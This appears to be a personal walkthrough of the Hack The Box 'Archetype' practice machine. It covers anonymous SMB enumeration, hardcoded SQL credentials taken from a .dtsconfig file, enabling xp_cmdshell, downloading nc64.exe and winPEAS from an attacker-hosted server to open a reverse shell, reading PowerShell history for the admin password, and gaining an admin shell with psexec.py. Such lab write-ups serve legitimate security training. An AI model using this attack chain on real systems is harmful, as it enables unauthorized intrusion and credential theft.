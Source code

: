Archtype 


Did nmap as usual to get the open ports - could see so many open ports like ms rpc, mssql and smb client etc  
now will try accessing the smbclient by using : smbclient -N -L {ip address}  -N means no password and -L to list the share 

I can see that only backup and IPC$ shares seems to be allowed public assess, and we get a dtsconfig file while opening “backup” share   it seems  .dtsconfig files is used to hardcode connection strings and passwords for the  sql server so a SSIS package ( Sql Server integration service ) will use it  to run ETLs 
Since this was stored securely we can use the password and username given in the .dtsconfig and use it through impacket to connect to the sql server  
password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc  we can connect using python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth,  mssqlclient.py is a python file inside the impacket repo and we add a flag -windows-auth to specify to use windows authentication   now a sql command line will show up and we use SELECT is_srvrolemember('sysadmin'); to check if our role is “sysadmin”  and it returned 1 so that means we are and we have the most high level access so we can use something called xp_cmdshell to run commands on the os   from a cheatsheet we get that this is how we enable xp_cmdshell : EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv  then EXEC xp_cmdshell 'net user'; to check if its activated

now using this we will download the nc64.exe file we have hosted in a python server so we can run the nc64.exe to open the victims port 

to download we can do : xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget
http://10.10.14.9/nc64.exe -outfile nc64.exe”   wget we request to our python server where we have hosted the nc64.exe file and download it to the path specified which is download   now will connect to our port which we exposed using nc  -lvp {port} 

now we need to elevate our access using winpeas which we add to our python server and download it in victim’s device then run it in powershell - wget http://10.10.14.190/winPEASx64.exe -outfile winPEASx64.exe

when you run the winPeas exe it returns a long output with too much info including vulnerabilities it seems its a enumeration tool   As per walkthrough “As this is a normal user account as well as a service account, it is worth checking for frequently access files
or executed commands. To do that, we will read the PowerShell history file, which is the equivalent of
.bash_history for Linux systems. The file ConsoleHost_history.txt can be located in the directory
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\” 

There we get the admin password and using :  python3 psexec.py administrator@10.129.95.187  then we get the root flag 
 dont forget : 

winPEAS - for  local enumeration for privilege escalation.

psexec.py - lets you authenticate with high privileges and get shell access (SMB-based).



 
